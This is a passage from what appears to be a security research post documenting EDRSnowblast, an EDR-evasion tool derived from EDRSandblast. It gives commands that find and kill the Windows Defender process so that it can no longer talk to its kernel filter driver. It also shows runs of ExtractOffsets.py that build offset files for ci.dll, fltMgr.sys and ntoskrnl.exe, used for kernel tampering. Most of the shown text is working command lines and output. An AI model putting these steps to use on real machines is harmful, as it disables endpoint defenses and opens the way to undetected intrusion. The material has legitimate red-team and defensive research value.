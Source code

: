 When the operation finished, identify the PID of Windows Defender usermode process and kill it :  
```
tasklist | findstr MsMpEng.exe
MsMpEng.exe                   2956 Services                   0    206,788 K
c:\pimpmypid_clt.exe /kill 2956
```

Now the new `MsMpEng.exe` can't connect to `WdFilter.sys` because MaxConnections (value = 0) is already reached. Without this connection no message can be exchanged between EDR.sys and EDR.exe, impacting the EDR ability to detect & block security threats.  

## Add new offsets files : updated ExtractOffsets.py  

The new features shown in previous sections require building new offsets files : `CiOffsets.csv` & `FltmgrOffsets.csv`  

You will find below the process of building required CSV offsets files for a new Windows target.  

Generate offsets for a new Windows ci.dll (new file created : CiOffsets.csv)  

```
C:\Users\viking>python .\EDRSnowblast\Offsets\ExtractOffsets.py -i c:\Windows\System32\ci.dll ci
[*] Processing ci version ci_19041-3208.dll (file: c:\Windows\System32\ci.dll)
[+] g_CiOptions = 0x39418
[+] do it : c:\Windows\System32\ci.dll
e246455a03d9113c5dfd597afdd2d6f079d83b5c9bf28d20953ca3e81c1d67a0
[+] Finished processing of ci c:\Windows\System32\ci.dll!
```

Generate offsets for a new Windows fltmgr.sys (new file created : FltmgrOffsets.csv)  

```
C:\Users\viking>python .\EDRSnowblast\Offsets\ExtractOffsets.py -i c:\Windows\System32\drivers\fltMgr.sys fltmgr
[*] Processing fltmgr version fltmgr_19041-3086.sys (file: c:\Windows\System32\drivers\fltMgr.sys)
[+] FltGlobals = 0x29600
...
[+] do it : c:\Windows\System32\drivers\fltMgr.sys
a74ad4d7624fb741b7008711336b37f3a27d96c3ef6361c107155b3bdfd8592b
[+] Finished processing of fltmgr c:\Windows\System32\drivers\fltMgr.sys!
```  

Generate offsets for a new Windows kernel (new file created : NtoskrnlOffsets.csv)  

```
C:\Users\viking>python .\EDRSnowblast\Offsets\ExtractOffsets.py -i c:\Windows\System32\ntoskrnl.exe ntoskrnl
[*] Processing ntoskrnl version ntoskrnl_19041-3208.exe (file: c:\Windows\System32\ntoskrnl.exe)
[+] PspCreateProcessNotifyRoutine = 0xcec2a0
[+] PspCreateThreadNotifyRoutine = 0xcec0a0
[+] PspLoadImageNotifyRoutine = 0xcec4a0
[+] _PS_PROTECTION Protection = 0x87a
[+] EtwThreatIntProvRegHandle = 0xc19e08
[+] _ETW_GUID_ENTRY* GuidEntry = 0x20
[+] _TRACE_ENABLE_INFO ProviderEnableInfo = 0x60
[+] PsProcessType = 0xcfc410
[+] PsThreadType = 0xcfc440
[+] struct _LIST_ENTRY CallbackList = 0xc8
[+] do it : c:\Windows\System32\ntoskrnl.exe
e8e6040640c9dddc8feeb0a9310bab92e7e422ef469beabdd8b5bb63b7a9dad0
[+] Finished processing of ntoskrnl c:\Windows\System32\ntoskrnl.exe!
```


[LINK1]: https://github.com/wavestone-cdt/EDRSandblast/blob/master/EDRSandblast/Utils/NtoskrnlOffsets.c#L19
[LINK2]: https://github.com/wavestone-cdt/EDRSandblast/blob/master/EDRSandblast/Utils/NtoskrnlOffsets.c#L139
[LINK3]: https://github.com/wavestone-cdt/EDRSandblast/issues/16
[LINK4]: https://github.com/wavestone-cdt/EDRSandblast/
[LINK5]: https://github.com/v1k1ngfr/EDRSnowblast
[LINK6]: https://github.com/wavestone-cdt/EDRSandblast/pulls?q=is%3Apr+author%3Av1k1ngfr
[LINK7]: https://github.com/wavestone-cdt/EDRSandblast/issues?q=is%3Aissue+author%3Av1k1ngfr
[LINK8]: https://github.com/wavestone-cdt/EDRSandblast/pull/14
[LINK9]: https://github.com/wavestone-cdt/EDRSandblast/pull/15
[LINK10]: https://www.secureauth.com/labs/advisories/gigabyte-drivers-elevation-of-privilege-vulnerabilities/
[LINK11]: https://v1k1ngfr.github.io/loading-windows-unsigned-driver/